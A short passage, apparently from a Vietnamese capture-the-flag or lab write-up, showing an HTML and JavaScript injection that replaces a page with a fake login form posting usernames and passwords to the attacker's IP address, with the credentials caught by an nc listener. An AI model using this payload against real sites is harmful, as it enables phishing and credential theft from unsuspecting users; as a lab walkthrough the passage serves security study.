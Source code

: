 Tiếp theo chúng ta sẽ test injected form

```html
<h3>Please login to continue</h3>
<form action=http://10.10.15.127>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

![](images/3.png)

Chúng ta nhận được username và password khi listen với nc

![](images/4.png)

Khi này payload chính để lấy cắp thông tin sẽ là:

![](images/5.png)

```js
document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove();document.write('<h3>Please login to continue</h3> <form action=http://10.10.15.127> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form>')
```
